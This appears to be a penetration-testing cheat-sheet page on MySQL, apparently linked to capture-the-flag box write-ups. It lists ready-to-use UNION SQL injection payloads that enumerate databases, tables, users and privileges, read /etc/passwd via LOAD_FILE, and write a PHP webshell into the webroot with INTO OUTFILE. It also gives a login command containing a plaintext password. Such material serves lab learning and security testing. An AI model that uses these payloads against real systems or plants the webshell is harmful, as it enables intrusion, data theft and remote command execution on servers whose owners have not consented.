

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# MySQL (3306)

## Usage



```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##
```



For an example of MySQL usage see [Devvortex](../../boxes/easy/devvortex.md).

## SQLi


The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.



On the below commands, the comment at the end includes a space: `-- ! The #` symbol can also be used.




```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```



```bash
a' UNION select 1,database(),2,3-- 
```




```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```





```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```




```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```



The `FILE` privilege is needed to **READ** files.



```bash
a' UNION SELECT 1, user(), 3, 4-- 
```



```bash
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```




```bash
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```




```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```



```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```



To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |




```bash
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```





```bash
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```





```bash
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```




To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="144">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Example (UNION Attack)

Appropriate when the results are returned within the application's response. Two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [ ] [How many columns](mysql-3306.md#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [ ] [Which columns are suitable](mysql-3306.md#data-types) to hold the results from the injected query?

### Number of Columns

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error.

<figure><figcaption><p>Figure 1: Detecting SQLi.</p></figcaption></figure>

<figure><figcaption><p>Figure 2a: Indexing the first column.</p></figcaption></figure>

<figure><figcaption><p>Figure 2b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal.

<figure><figcaption><p>Figure 3: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it.

<figure><figcaption><p>Figure 4: Passing string data to the first column returns a server error.</p></figcaption></figure>

<figure><figcaption><p>Figure 5: Passing string data to the second column is accepted by the server.</p></figcaption></figure>

## Resources










